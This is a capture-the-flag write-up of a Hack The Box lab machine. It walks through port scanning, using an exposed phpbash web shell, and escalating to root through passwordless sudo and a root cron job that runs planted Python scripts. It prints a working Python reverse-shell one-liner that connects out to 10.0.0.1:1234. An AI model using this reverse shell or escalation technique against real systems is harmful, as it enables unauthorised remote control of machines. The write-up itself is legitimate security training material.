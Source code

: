 # Hack The Box: Sense machine write-up

This was a machine regarded as easy by most users, but I must say I found the root part really challenging. Thankfully, I got it in the end.

The machine is running on IP 10.10.10.68.

#### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
$ nmap -sV -sC 10.10.10.68
```

Then I get that there's a website in port 80, so I head there.

*Webpage running*

![Img](images/webpage.png "Img")

There, I find an article about something called 'phpbash', which is like a web command-line. There's also a github repository:

```sh
https://github.com/Arrexel/phpbash
```

Hence, I think there must be some path in the machine where there's a shell. I use dirbuster and after a while I find this path: ``
http://10.10.10.68/dev/phpbash.php
``

After accessing it, I can easily read the user.txt located in ``/home/Arrexel/user.txt``.

#### Root

This is where things get complicated. As I don't like the web shell, I use a python one-liner I got from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet to get a connection in my terminal (I listen with netcat and connect in port 1234). The code is:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then, navigating again to the / directory, I find an interesting directory, called scripts (/scripts).

*/ directory*

![Img](images/root.png "Img")

However, I cannot either cd or see the contents of the file.

*/scripts directory*

![Img](images/scripts.png "Img")

Checking with ```sudo -l``` I find out that I can log in as the scriptmanager user without password, who is the creator of the /scripts directory.

*sudo -l output*

![Img](images/sudo-l.png "Img")

Thus, I check whether I can list the files of /scripts with ```sudo -u scriptmanager ls -al /scripts```.

*sudo -l output*

![Img](images/ls_as_scriptmanager.png "Img")

Success!!!

Next step is to get a shell as scriptmanager (so I can avoid repeating ```sudo -u scriptmanager```, which is a bit annoying). So I run in the webshell the python one-liner but I precede it with ```sudo -u scriptmanager```. And that's it, I'm scriptmanager.

After inspecting the files of ```/scripts``` directory, I find something odd: the test.py writes a string to test.txt, the later being owned by root. So, after listing the directories of ```/var/spool/cron/crontabs```, I discover there is a cron job running as root.

Maybe, if I create a python script in the ```/scripts``` directory, it gets run as root. So I create a file which contains a shell and listen with netcat. And, a few minutes later, a root shell spawns!

*Root shell and cron job*

![Img](images/End.png "Img")

Now I can read the cron job and indeed the system was executing all python scripts in that directory. Machine owned!

<small>_I must say the second part was more difficult than explained, I was stuck at it for over a week until I found out the scriptamanager part and thought about the cron job. However, it was a really rewarding experience._</small>

*Diego Bernal Adelantado*
